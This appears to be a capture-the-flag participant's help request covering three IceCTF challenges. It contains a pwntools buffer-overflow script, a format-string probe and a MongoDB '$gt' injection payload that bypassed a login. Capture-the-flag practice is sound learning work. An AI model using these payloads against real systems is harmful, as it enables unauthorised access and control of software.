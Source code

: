 There are 3 challenges which I feel I can do but not able to figure out my mistake(s)<br>
#Smashing Profit!
From what I understood we have to exploit buffer overflow vulnerablity. Using gdb I found that eip gets overwritten after string length 76.<br>
So I made a script to send the payload but it gave me segmentation fault. Can't figure out where I'm wrong.
```
from pwn import *
import time

shell = ssh(host='shell.icec.tf',user='<user id>',password='<password>')
sh=shell.run("sh")
sh.sendline("cd /home/profit/")
sh.sendline("./profit")
time.sleep(1)
data='A'*76
data+=p32(0x0804850b)
print "sending "+data
sh.sendline(data+"\n")
print sh.recv(timeout=5)
```
#Dear diary
Format string vulnerablity<br>
In the main function flag() is called which should put the flag on the stack. But looking at the stack through gdb in the print entry function shows no sign of it :/<br>
So, %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x doesn't give anything but junk.

#ChainedIn
I was able to login as administrator by modifying the post data, which was a JSON, to {"user":{"$gt":" "},"pass":{"$gt":" "}} as the website was adding slashes on the client side only.<br>
This mongo injection was successful but I can't figure out how to get the password. Probably has something to do with template injections.
